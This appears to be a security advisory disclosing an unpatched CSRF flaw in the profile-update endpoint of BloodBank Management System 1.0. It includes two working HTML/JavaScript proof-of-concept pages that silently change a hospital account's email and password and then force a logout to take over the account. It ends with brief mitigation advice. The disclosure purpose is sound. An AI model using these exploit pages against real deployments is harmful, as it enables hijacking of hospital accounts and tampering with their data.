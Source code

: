 
## **Affected Version:**
- **BloodBank Management System**: 1.0

## **Vulnerability Information:**
- **Vulnerability Type:** Cross Site Request Forgery (CSRF)
- **Severity:** HIGH
- **Status:** Unpatched

## **Vulnerable Endpoint:**
- **Path:** `/file/updateprofile.php`

## **Vulnerability Description:**
There is a CSRF vulnerability on this endpoint `/file/updateprofile.php` which allows a remote user to update the user details of a hospital and can can lead to account takeover as the attacker can update all the information from the email to the password effectively increasing chances of account takeover

Successful exploitation can lead to **unauthorized actions ie deletion of data** on behalf of the victim. Additionally, this could be exploited by visiting malicious websites with the payload.

---

## **Proof of Concept (PoC):**

Below is an example of a **CSRF POC Attack** that updates the profile details of a logged in hospital account, host the file on an attacker controlled domain in my case i was using `localhost`:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF PoC with Logout Redirect</title>
</head>
<body>
    <h2>CSRF Proof of Concept with Chained Logout</h2>

    <!-- Form to exploit CSRF vulnerability for updating profile -->
    <form id="csrfForm" action="http://localhost.local/bloodbank/file/updateprofile.php" method="POST">
        <input type="hidden" name="hname" value="parirenyatwa">
        <input type="hidden" name="hemail" value="pari@hospital.co.zw">
        <input type="hidden" name="hpassword" value="pari1234">
        <input type="hidden" name="hphone" value="0777054000">
        <input type="hidden" name="hcity" value="harare">
        <input type="hidden" name="update" value="Update">
    </form>

    <script>
        // Submit the CSRF form to update profile
        document.getElementById("csrfForm").submit();
   </script>
</body>
</html>



```


## **Proof of Concept (POC) to Account TakeOver**

- The attacker can effectively update the profile detail manipulating the email and password and force a `logout CSRF` thereby achieving Account Take Over

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF PoC with XMLHttpRequest</title>
</head>
<body>
    <h2>CSRF Proof of Concept with XMLHttpRequest and Redirect</h2>

    <script>
        // Define the target URLs for the CSRF attack
        const updateUrl = "http://localhost.local/bloodbank/file/updateprofile.php";
        const logoutUrl = "http://localhost.local/bloodbank/logout.php";

        // Data for the profile update CSRF request
        const updateData = "hname=parirenyatwa&hemail=pari%40hospital.co.zw&hpassword=pari1234&hphone=0777054000&hcity=harare&update=Update";

        // Function to send the XMLHttpRequest
        function sendCSRFUpdate() {
            const xhr = new XMLHttpRequest();
            xhr.open("POST", updateUrl, true);
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

            // When the request is complete, redirect to the logout page
            xhr.onload = function() {
                if (xhr.status === 200) {
                    console.log("Profile update CSRF request completed");
                    // Redirect to logout URL to log the victim out
                    window.location.href = logoutUrl;
                } else {
                    console.error("Profile update failed with status:", xhr.status);
                }
            };

            // Send the request with the update data
            xhr.send(updateData);
        }

        // Trigger the CSRF attack by sending the update request
        sendCSRFUpdate();
    </script>
</body>
</html>



```

---



## **Impact:**
- **Data Manipulation:** Attackers could modify the content displayed to users.
- **Reputational Damage:** Users may lose trust in the system due to malicious behavior.

---

## **Mitigation Recommendations:**
1. **Use CSRF Token** Implement mechanism to deter cross domain access or put `csrf tokens` in your request and also avoid `GET` requests from making state changing actions

---
